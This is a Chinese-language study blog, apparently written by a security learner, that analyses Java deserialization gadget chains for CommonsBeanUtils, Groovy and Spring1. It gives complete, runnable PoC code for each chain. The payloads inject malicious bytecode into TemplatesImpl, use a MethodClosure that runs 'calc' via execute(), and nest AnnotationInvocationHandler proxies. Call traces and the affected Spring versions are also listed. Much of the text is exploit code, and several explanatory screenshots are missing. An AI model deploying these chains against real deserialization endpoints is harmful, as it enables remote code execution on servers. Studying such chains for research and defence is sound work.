

# Java 反序列化链 2 学习

## 1. CommonsBeanUtils

1. CommonsBeanUtils 是 Apache 官方为了能够动态地访问 Java 对象的属性（区别于之前通过创建 getter 和 setter 方法并直接调用的过程），常见的一种情况就是解析 xml 文件并通过 Java 的反射机制来实例化类以用于一些配置。具体可以详见官方说明：
    >官方：https://commons.apache.org/proper/commons-beanutils/index.html
    >However, there are some occasions where dynamic access to Java object properties (without compiled-in knowledge of the property getter and setter methods to be called) is needed. Example use cases include:
    >
    >- Building scripting languages that interact with the Java object model (such as the Bean Scripting Framework).
    >- Building template language processors for web presentation and similar uses (such as JSP or Velocity).
    >- Building custom tag libraries for JSP and XSP environments (such as Jakarta Taglibs, Struts, Cocoon).
    >- Consuming XML-based configuration resources (such as Ant build scripts, web application deployment descriptors, Tomcat's `server.xml` file).
    >
    >The Java language provides *Reflection* and *Introspection* APIs (see the `java.lang.reflect` and `java.beans` packages in the JDK Javadocs). However, these APIs can be quite complex to understand and utilize. The *BeanUtils* component provides easy-to-use wrappers around these capabilities.

2. 回顾一下 CC4 的链条：
    `PriorityQueue -> TransformingComparator -> ChainedTransformer -> InstantiateTransformer -> TrAXFilter -> TemplatesImpl.newTransformer()`。当时的思路是**为了能找到一个可以执行 `transform()` 的 Comparator**；现在换一个思路，即**是否有一个 Comparator，它能够调用 getter 或者 setter，从而能够触发 `TemplatesImpl#getOutputProperties()`。**

3. 但是并没有找到一个 Comparator 会直接调用 getter，但是 CB 链中为了延续**找 getter 和 setter **的思路，给出了两个类：`PropertyUtils` 和 `BeanComparator`。

### 1.1 chain1 -- `PropertyUtils`

1. 先来看看 `PropertyUtils` 的官方介绍：

    > Utility methods for using Java Reflection APIs to facilitate generic property getter and setter operations on Java objects.
    > The implementations for these methods are provided by PropertyUtilsBean. For more details see PropertyUtilsBean.
    > 工具类，使用 Java 反射来辅助调用 Java 对象中的 getter 和 setter。
    > 具体功能的实现由 `PropertyUtilsBean` 负责。

2. `PropertyUtils` 有个共有静态方法 `getProperty()`：
    
    这个方法的功能在于：返回特定 bean 的特定属性名 name(key) 的值 value。接着跟进：
    
    再跟进到 `PropertyUtilsBean#getNestedProperty()`：
    
    总之其会基于反射来获取 getter 以获取元素值。那么这个类就可以调用 `TemplatesImpl#getOutputProperties()`。那么接下来就看看 `BeanComparator` 是怎么调用 `PropertyUtils#getProperty()` 的。

### 1.2 chain2 -- `BeanComparator`

1. 顺着 CC4 的思路，直接来看 `BeanComparator#compare()`：
    
    简单明了，直接就调用。

### 1.3 PoC

1. PoC 构造如下：
    ```java
    @Test
    public void testCB() throws Exception{
        // 1. 读取恶意类 bytes[]
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.getCtClass("com.endlessshw.serialization.util.Evil");
        byte[] bytes = ctClass.toBytecode();
    
        // 2. 构造 sink
        TemplatesImpl templates = new TemplatesImpl();
        // 要求 1 - 注入恶意字节码
        Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates, new byte[][]{bytes});
        // 要求 2 - 保证 _name 不为 null
        Field nameField = templates.getClass().getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "EndlessShw");
    
        // 3. 构造 chain - BeanComparator
        BeanComparator<Object> objectBeanComparator = new BeanComparator<>("outputProperties");
    
        // 4. 构造 kick-off
        PriorityQueue<Object> priorityQueue = new PriorityQueue<>();
        priorityQueue.add("1");
        priorityQueue.add("2");
        Field queueField = priorityQueue.getClass().getDeclaredField("queue");
        queueField.setAccessible(true);
        Object[] objects = (Object[]) queueField.get(priorityQueue);
        objects[0] = templates;
    
        // 5. 将 kick-off 和 chain 相连
        Field comparatorField = priorityQueue.getClass().getDeclaredField("comparator");
        comparatorField.setAccessible(true);
        comparatorField.set(priorityQueue, objectBeanComparator);
    
        String serialize = serialize(priorityQueue);
        unSerialize(serialize);
    }
    ```

2. 现在有个问题是，由于 `BeanComparator` 的默认 comparator 是 `ComparableComparator`。
    
    可以看到这是个 CommonCollections 中的类，导致了这明明是一条 CB 的触发链，却要同时依赖 CC。增加了利用的限制，那么这里要将其修改。

    > 答案在实例化 BeanComparator 时赋予其一个 JDK 自带的并且实现了 Serializable 接口的 comparator 即可，比如 `java.util.Collections$ReverseComparator` 和 `java.lang.String$CaseInsensitiveComparator` 等。

3. 那么最终补充完整的链条如下：
    ```java
    // CB 1.9.4 最新版本
    @Test
    public void testCB() throws Exception{
        // 1. 读取恶意类 bytes[]
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.getCtClass("com.endlessshw.serialization.util.Evil");
        byte[] bytes = ctClass.toBytecode();
    
        // 2. 构造 sink
        TemplatesImpl templates = new TemplatesImpl();
        // 要求 1 - 注入恶意字节码
        Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates, new byte[][]{bytes});
        // 要求 2 - 保证 _name 不为 null
        Field nameField = templates.getClass().getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "EndlessShw");
    
        // 3. 构造 chain - BeanComparator
        // 通过反射来获取 java.util.Collections$ReverseComparator 或者 java.lang.String$CaseInsensitiveComparator
        Class<?> reverseComparatorClass = Class.forName("java.util.Collections$ReverseComparator");
        Constructor<?> rcConstructorField = reverseComparatorClass.getDeclaredConstructor();
        rcConstructorField.setAccessible(true);
        Comparator<?> reverseComparator = (Comparator<?>) rcConstructorField.newInstance();
        BeanComparator<Object> objectBeanComparator = new BeanComparator<>("outputProperties", reverseComparator);
    
        // 4. 构造 kick-off
        PriorityQueue<Object> priorityQueue = new PriorityQueue<>();
        priorityQueue.add("1");
        priorityQueue.add("2");
        Field queueField = priorityQueue.getClass().getDeclaredField("queue");
        queueField.setAccessible(true);
        Object[] objects = (Object[]) queueField.get(priorityQueue);
        objects[0] = templates;
    
        // 5. 将 kick-off 和 chain 相连
        Field comparatorField = priorityQueue.getClass().getDeclaredField("comparator");
        comparatorField.setAccessible(true);
        comparatorField.set(priorityQueue, objectBeanComparator);
    
        String serialize = serialize(priorityQueue);
        unSerialize(serialize);
    }
    ```

4. 链大致如下：
    ```java
    /*
    	PriorityQueue.readObject()
    	    PriorityQueue.heapify()
    	        PriorityQueue.siftDown() -> siftDownUsingComparator
    	        	BeanComparator.compare()
    	        		PropertyUtils.getProperty()
    	        			TemplatesImpl.getOutputProperties()
    */
    ```

## 2. Groovy

1. 欸，又是一个没有听过的东西。先来看看他是什么。
2. Groovy是一门基于 JVM 的脚本语言。首先他是脚本语言，那么就像 Python 一样，可以用于编写一些脚本来辅助工作；其次他是基于 JVM 的，这意味着它也可以使用Java语言编写的库。它兼容 Java 语法的同时，借鉴了 Ruby、Python 等语言的特性，有自己一套简洁而灵活的语法。
3. 修复漏洞在：
    
    所以这里使用 2.4.3 版本。

### 2.1 sink - `String.execute()`

1. Groovy 为 `String` 类型直接添加了 `execute()` 方法，以便执行 shell 命令。根据 su18 师傅的讲解，我也来个 Demo：
    
2. 来看一下它的底层，就是很直接的 `Runtime.getRuntime().exec()`：
    

### 2.2 链接 sink 的 chain1 - `MethodClosure`

1. 先来看看 `MethodClosure` 是啥吧：

    > Represents a method on an object using a closure which can be invoked at any time
    > 它使用闭包代表一个对象的一个方法。这个闭包随叫随用。

    以前只在 Python 中听过闭包，忘了具体是啥，Java 的闭包实现还是不同的：

    > https://www.cnblogs.com/ssp2110/p/3797666.html
    > https://cloud.tencent.com/developer/article/2119686
    > 这两篇文章结合起来看，大概明白了什么是闭包。

    不过看了，依旧不懂这个类有啥作用。

2. 还是先来看看这个类的定义和构造函数：
    
    首先他继承 `Closure` 类，其次它的构造函数接受一个对象和该对象对应的方法。
    这个类可执行系统命令，例如它有一个 `doCall()` 方法：
    

3. 不过 CB 链中并没有使用该方法，而且调用了其父类的 `call()`：
    
    不过其底层还是调用了 `doCall()`。
    那么结合 sink，可以构造出以下的命令执行代码：

    ```java
    MethodClosure methodClosure = new MethodClosure("calc", "execute");
    methodClosure.call();
    ```

    
    可以看出，可以直接在 .java 中执行 groovy 中的函数。

4. 那么接下来就是想办法怎么调用这个 `call()`。

### 2.3 chain2 - `ConvertedClosure`

1. 这里给出 `org.codehaus.groovy.runtime.ConvertedClosure`，先来看看这个类的介绍：

    > This class is a general adapter to adapt a closure to any Java interface.
    > 这个类是通用适配器，主要将一个闭包适配到 Java 接口。

    听着感觉还是很抽象，还是来看它所继承的类和构造函数：
    
    继承自 `ConversionHandler`，而 `ConversionHandler` 其实实现了 `InvocationHandler` 接口，所以 `ConversionHandler` 还是**动态代理**类。
    同时它的构造函数需要一个闭包和闭包中的一个方法名，根据动态代理类大概能想到 `ConvertedClosure` 动态代理传入的闭包。

2. 来看它的 `invoke()`，它没有重写父类的 `invoke()`，所以看它的父类 `ConversionHandler#invoke()`：
    
    调用了 `invokeCustom()`，看看 `ConversionHandler#invokeCustom()`：
    
    看到了 `call()` 方法。

3. 回顾上述流程，可以看到有两个 `if` 需要注意。分别是 `!checkMethod(method)` 和 `methodName != null && !methodName.equals(method.getName())`。
    先来看第一个，第一个的意思是检查调用的方法是否是 `Object` 的原生方法，如果不是则进入 `if`，显然默认逻辑下成立，所以不用管。
    再来看第二个，需要传入的 `method` 为空或者 `ConvertedClosure` 初始化时和代理时指定的方法相同则调用 `call()`。

4. 显然现在需要**它作为动态代理类**来操作，可是现在有两个问题：

    1. 代理谁？即哪个类作为被代理对象。
    2. kick-off 的 `readObject()` 可以触发代理对象中的方法。

    回顾以往的例子，可以想到 `AnnotationInvocationHandler` 和 `Map`。

### 2.4 PoC 构造

1. 使用 `AnnotationInvocationHandler` 作为 kick-off，`Map` 作为被代理的类，可以构造出以下 PoC：
    ```java
    @Test
    public void testGroovy() throws Exception {
        // 1. 先构造 sink 和 chain1
        MethodClosure methodClosure = new MethodClosure("calc", "execute");
    
        // 2. 构造 chain2 - ConvertedClosure 和代理需要的 Map
        ConvertedClosure convertedClosure = new ConvertedClosure(methodClosure, "entrySet");
        // 后面的参数填 null 也行，反正目的就是绕过那个 if
        // ConvertedClosure convertedClosure = new ConvertedClosure(methodClosure, null);
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put("EndlessShw", "EndlessShw");
        // 构造代理，将 ConvertedClosure 当作处理类
        Map<?, ?> map = (Map<?, ?>) Proxy.newProxyInstance(hashMap.getClass().getClassLoader(), hashMap.getClass().getInterfaces(), convertedClosure);
    
        // 3. 回到 kick-off，先反射创建 AnnotationInvocationHandler
        Class<?> aihClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> aihClassConstructor = aihClass.getDeclaredConstructor(Class.class, Map.class);
        aihClassConstructor.setAccessible(true);
        Object aih = aihClassConstructor.newInstance(Override.class, map);
    
        String serialize = serialize(aih);
        unSerialize(serialize);
    }
    ```

2. 链的大致过程如下：
    ```java
    /*
    	AnnotationInvocationHandler.readObject()
    		Map(Proxy).entrySet()
    			ConvertedClosure(InvocationHandler).invoke()
    				ConvertedClosure.invokeCustom()
    					MethodClosure.call()
    						"calc".execute()		
    */
    ```

3. Groovy 现在用这个版本的应该很少了，这里学 Groovy 链主要是为了之后学其他使用了动态代理的链做铺垫。

## 3. Spring1

1. 看网上的文章普遍用的 4.1.4 版本，我很好奇其究竟的影响版本是什么，然后就嗯去查阅 spring-core 的更新日志，最终找到了：
    
    下面的对话大概扫了一下，可知 Spring1 可打的范围在 version <= 4.1.8 以及 version <= 4.2.2。

### 3.1 从 `AnnotationInvocationHandler` 再深入了解动态代理

1. 再次回顾动态代理，对一些关键点再着重强调一下：

    1. 先是创建代理对象：
        ```java
        /**
        * 第一个参数 ClassLoader，默认系统的 ClassLoader 就行。
        * 第二个参数 interfaces，表示代理对象代理的接口或者类，注意这个接口或者类是数组，这就意味着它可以代理多个接口且这些接口直接可能并没有继承等关系，这在链的构造中比较重要。
        * 第三个参数，就是 InvocationHandler，当调用代理的接口或者类中的方法时，就会调用 InvocationHandler 中的 invoke() 方法（注意此时原先的方法的调用权在 invoke() 中，也就是说，只要你想，原先方法可以不执行）
        */
        public static Object newProxyInstance(ClassLoader loader, Class<?>[] interfaces, InvocationHandler h) throws IllegalArgumentException
        ```

        第二个参数和第三个参数表现出动态代理的灵活性，在链的构造中尤为重要。

    2. 是 `InvocationHandler#invoke`：

        ```java
        /**
        * 被代理对象一般通过构造函数赋值。
        * 第一个参数 proxy，也就是代理对象（注意不是被代理对象），用的少。
        * 第二个参数 method，比较重要，就是被调用的方法名。被调用的方法按照正常业务来讲，是需要手动在 invoke 中根据实际业务通过反射触发 Method。
        * 第三个参数 args，就是调用方法时的参数。
        * return 返回的 Object 正常来讲就是反射触发 Method 的返回值。但是假如它不走寻常路，那么本应该正常返回的值，就会返回其他值，这个在安全中也很重要。
        */
        @Override
        public Object invoke(Object proxy, Method method, Object[] args) throws Throwable{...}
        ```

2. 重新来看一下 `AnnotationInvocationHandler#invoke()`：
    
    CC1 链中主要是用到了它的 `this.memberValues.get()`，就是那个 `get()`。
    但是现在，看他的返回值，它的返回值是所修饰的 `Map` 的，`key == 被代理方法名` 所对应的 `value`。那么如果它作为 `InvocationHandler` 代理一个对象，对于它的一个方法 `method()`，就可以通过 `Map.put("method", 其他返回值)` 来修改 `method()` 本来的返回值（但是一般返回值的类型有限制，如果它是泛型的话，这就有突破口了)。这和上文中讲 `invoke()` 的 return 相呼应。

### 3.2 kick-off - `MethodInvokeTypeProvider`

1. 直接来看这个类：
    
    首先它是可序列化的。
    然后主要看它的 `readObject()`，关键就是最后一行的 `ReflectionUtils.invokeMethod()`，显然如果可以控制参数 `method` 和 `this.provider.getType()`，那么就可以调用任意的**无参方法**。这时想到之间 `TemplatesImpl#newInstance()`，这样思路就串起来。
2. 这时可以想到用 `AnnotationInvocationHandler` 的动态代理。
    但是可以看到 `this.provider.getType()` 方法被重写了，可以看到其返回的类必须是 `Type`。
3. 那么就只能退而求其次，回顾动态代理的特性。假如我现在不直接控制 `this.provider.getType()` 的返回值为 `TemplatesImpl`，而是考虑返回一个代理类，这个代理类它同时代理 `Type` 和 `TemplatesImpl`。而且 `ReflectionUtils.invokeMethod()` 就会调用这个代理类的 `newInstance()`，**此时就会转而调用代理类的 `InvocationHandler#invoke()`，即最终触发 sink 的地方交给代理类的 `InvocationHandler#invoke()`。**
    综上所述，现在要创建的一个代理类，它有以下要求：
    1. 代理 `Type` 和 `Templates(TemplatesImpl 的接口)`。
        这个要求很好办，创建的时候直接填入参数就行。
    2. 它的 `InvocationHandler#invoke()` 要有 `templatesImpl（恶意的对象）` 且反射 `method.invoke(templatesImpl, args)` 调用执行。
        `InvocationHandler` 中一般都是 `method.invoke(被代理对象, 参数)`。也就是说大部分 `InvocationHandler` 实现类的被代理对象类的类型都是在 `InvocationHandler` 的构造函数中固定的，所以这时想要将其控制为想要的类，就需要往**泛型**上靠拢。


### 3.3 chain1 - `ObjectFactoryDelegatingInvocationHandler`

1. `org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler` 看名字就大概知道它又是一个 `InvocationHandler` 的实现类。来看看他作为动态代理的功能：
    
    跟进 `this.objectFactory.getObject()`：
    
    是个泛型，那么可以通过 `AnnotationInvocationHandler` 动态代理这个类，将其返回值改为 `templatesImpl`。
2. 那么现在思路就比较清晰了，`ObjectFactoryDelegatingInvocationHandler#invoke()` 就是触发 sink 的地方，总结一下，其还有两个问题要处理：
    1. 想要触发 `invoke`，其必须作为一个代理对象的 `InvocationHandler`，不过这部分与上文的第二点中相呼应。
    2. 让 `this.objectFactory.getObject()` 返回 `Templates`，因此还需要 `AnnotationInvocationHandler` 使用动态代理进行修改。

### 3.4 PoC 构造

1. 将上述所讲的要求进行转化，可以得到以下 PoC：
    ```java
    // spring-core 和 spring-beans 版本为 4.1.8
    // jdk8u65
    @Test
    public void testSpring1() throws Exception {
        // 想让 this.provider.getType() 返回 templatesImpl（TemplatesImpl 具体对象），那就代理该方法，MethodInvokeTypeProvider.provider 使用代理对象，从而修改返回值
        // 但是用 AnnotationInvocationHandler 直接修改不行，因为类不匹配。
        // 只能说通过 AnnotationInvocationHandler 代理 getType() 以传入一个代理类，这个代理类代理了 Type 和 Templates 接口，让其能够调用 newTransformer() 方法（但不是恶意 templatesImpl 的）。
        // 由于不是恶意的 templatesImpl，因此如果这个代理类的 InvocationHandler 要是还能够调用 templatesImpl.newTransformer 就更好了。
        // 而这个代理类的 InvocationHandler 就是 ObjectFactoryDelegatingInvocationHandler。通过其 invoke 来触发漏洞，而想让它来触发漏洞，就需要两个条件：
        // 1. 触发 invoke 的条件是它要作为 InvocationHandler，代理方法 newTransformer()，这一点和上文说的相呼应。
        // 2. this.objectFactory.getObject() 返回的是 templatesImpl。因为它是泛型，所以可以使用 AnnotationInvocationHandler 来进行修改。
    
        // 1. 读取恶意类 bytes[]
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.getCtClass("com.endlessshw.serialization.util.Evil");
        byte[] bytes = ctClass.toBytecode();
    
        // 2. 构造 sink
        TemplatesImpl templatesImpl = new TemplatesImpl();
        // 要求 1 - 注入恶意字节码
        Field bytecodesField = templatesImpl.getClass().getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templatesImpl, new byte[][]{bytes});
        // 要求 2 - 保证 _name 不为 null
        Field nameField = templatesImpl.getClass().getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templatesImpl, "EndlessShw");
    
        // 3. 先把两个 AnnotationInvocationHandler 创建出来，以供使用
        Class<?> aIHClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> aIHClassDeclaredConstructor = aIHClass.getDeclaredConstructor(Class.class, Map.class);
        aIHClassDeclaredConstructor.setAccessible(true);
        // 第一个要修改 this.objectFactory.getObject()，返回的是 templatesImpl
        HashMap<Object, Object> mapGO = new HashMap<>();
        mapGO.put("getObject", templatesImpl);
        InvocationHandler invocationHandlerGO = (InvocationHandler) aIHClassDeclaredConstructor.newInstance(Override.class, mapGO);
        ObjectFactory<?> objectFactory = (ObjectFactory<?>) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{ObjectFactory.class}, invocationHandlerGO);
    
        // 4. 第二个要修改 this.provider.getType()，同时还需要代理类。所以还得先创建代理类，所使用的 InvocationHandler 为 ObjectFactoryDelegatingInvocationHandler
        Class<?> ofdIHClass = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor<?> ofdIHClassDeclaredConstructor = ofdIHClass.getDeclaredConstructor(ObjectFactory.class);
        ofdIHClassDeclaredConstructor.setAccessible(true);
        InvocationHandler invocationHandlerOF = (InvocationHandler) ofdIHClassDeclaredConstructor.newInstance(objectFactory);
        // 创建了代理类
        Type type = (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Type.class, Templates.class}, invocationHandlerOF);
    
        // 5. 接着完善第二个 AnnotationInvocationHandler，它将代理 this.provider.getType() 方法并修改其返回值
        HashMap<Object, Object> mapGT = new HashMap<>();
        mapGT.put("getType", type);
        InvocationHandler invocationHandlerGT = (InvocationHandler) aIHClassDeclaredConstructor.newInstance(Override.class, mapGT);
        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        Object typeProvider = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{typeProviderClass}, invocationHandlerGT);
    
        // 6. 构造 sink
        // 这里 TypeProvider 还是内部静态接口，不好直接用 TypeProvider.class，然后它构造函数好像就一个
        Class<?> mityClass = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> typeProviderClassDeclaredConstructor = mityClass.getDeclaredConstructors()[0];
        typeProviderClassDeclaredConstructor.setAccessible(true);
        // 把 kick-off 中的 provider 改成修改了返回值后的 provider，这样才能使得 this.provider.getType() 返回想要的值
        // MethodInvokeTypeProvider 的构造函数调用了一次 ReflectionUtils.invokeMethod()，所以先不让它触发链，然后后面通过反射修改
        Object tobeSerialized = typeProviderClassDeclaredConstructor.newInstance(typeProvider, Object.class.getMethod("toString"), 0);
        Field methodNameField = mityClass.getDeclaredField("methodName");
        methodNameField.setAccessible(true);
        methodNameField.set(tobeSerialized, "newTransformer");
    
        String serialize = serialize(tobeSerialized);
        unSerialize(serialize);
    }
    ```

2. 这个链难搞的地方在于：

    1. `AnnotationInvocationHandler` 动态代理的深度应用。
    2. 动态代理的嵌套，通过动态代理修改返回值后，返回值还用到新的动态代理。

3. 链的过程大致如下：
    ```java
    /*
    	SerializableTypeWrapper$MethodInvokeTypeProvider.readObject()
    		SerializableTypeWrapper.TypeProvider(Proxy).getType()
    			AnnotationInvocationHandler.invoke()[修改了返回值]
    				ReflectionUtils.invokeMethod()[TypeAndTemplates(proxy) 的 newTransformer()]
    					AutowireUtils$ObjectFactoryDelegatingInvocationHandler.invoke()
    						ObjectFactory(proxy).getObject()
    							AnnotationInvocationHandler.invoke()[修改了返回值]
    								Method.invoke(templatesImpl, args)
    */
    ```

4. 
